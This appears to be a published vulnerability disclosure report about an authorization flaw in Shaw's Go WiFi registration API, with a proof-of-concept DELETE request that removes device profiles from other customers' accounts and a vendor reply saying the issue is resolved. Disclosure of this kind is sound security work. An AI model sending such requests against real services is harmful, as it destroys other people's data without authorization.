 ```yaml
---
layout: reports
permalink: /reports/7/
tagline: "On 10 August 2018 I discovered an Arbitrary File Deletion vulnerability on shaw.com"
image:
  feature: blog/default-feature.jpg
  hero: blog/default-header.jpg
report-id: GW0007
---
```


## Summary

By sending a `DELETE` request to a specific API location it is possible to arbitrarily delete Shaw Go Wifi device profiles from any account.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with any Shaw customer or by remotely logging into a @shaw.ca email. The `access_token` can be used to delete device profiles even if they are associated with another account.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

After generating an `access_token` we can send a `delete` request, replacing `c15c0d06f00d` with the device ID. The device ID is usually either the device MAC Address or `120100██████` with `██████` being a sequentially generated hexadecimal value.

Request:
```http
DELETE /api/customer/devices/c15c0d06f00d HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 50
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._

At the time of publishing this report using `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` now result in the response `412 Precondition Failed` and `{"code":242,"message":"Invalid Device - Missing from Account: 03161234567"}`

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since.

## Response From Vendor


### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.
